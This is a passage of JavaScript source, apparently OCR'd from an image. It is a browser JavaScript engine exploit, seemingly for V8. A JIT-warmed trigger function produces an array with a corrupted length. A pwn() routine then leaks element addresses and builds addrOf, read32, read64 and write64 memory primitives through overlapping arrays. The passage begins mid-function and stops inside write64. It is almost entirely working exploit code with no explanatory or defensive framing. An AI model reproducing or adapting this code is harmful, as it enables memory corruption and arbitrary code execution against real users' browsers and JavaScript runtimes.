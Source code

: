 ```js
  p = Math.max(p, 1);
  p += 1;
  p >>= 1;
  p -= 2;

  let arr = Array(p);
  let arr_two = [1.1, 2.2, 3.3];
  arr.pop();

  return [arr.length, arr, arr_two];
}

function pwn() {
  for (let i = 0; i < 0x10000; i++) {
    trigger(true);
  }

  gc();

  let a = trigger(false);
  let o = a[1];
  let corrupted_arr = a[2];

  let c = [0.1, 0.2, 0.3, 0.4, 0.5];
  let d = [wf, wf, wf, wf, wf];
  let e = [0.1, 0.2, 0.3, 0.4, 0.5];

  o[16] = 0x100000;

  let ci = 16;
  let di = 29;
  let ei = 41;

  c_elem = [f64_to_u32(corrupted_arr[ci])[1], 0];
  d_elem = [f64_to_u32(corrupted_arr[di])[0], 0];
  e_elem = [f64_to_u32(corrupted_arr[ei])[1], 0];

  print("c_elem addr : " + tohex64(c_elem));
  print("d_elem addr : " + tohex64(d_elem));
  print("e_elem addr : " + tohex64(e_elem));

  corrupted_arr[ci] = u32_to_f64([0, d_elem[0]]);

  function addrOf(o) {
    d[0] = o;
    return [f64_to_u32(c[0])[0], 0];
  }

  function read32(o) {
    o[0] |= 1;
    corrupted_arr[ei] = u32_to_f64([o[0] - 8, o[0] - 8]);
    return [f64_to_u32(e[0])[0], 0];
  }

  function read64(o) {
    o[0] |= 1;
    corrupted_arr[ei] = u32_to_f64([o[0] - 8, o[0] - 8]);
    return f64_to_u32(e[0]);
  }

  function write64(o, v) {
    o[0] |= 1;
    corrupted_arr[ei] = u32_to_f64([o[0] - 8, o[0] - 8]);
```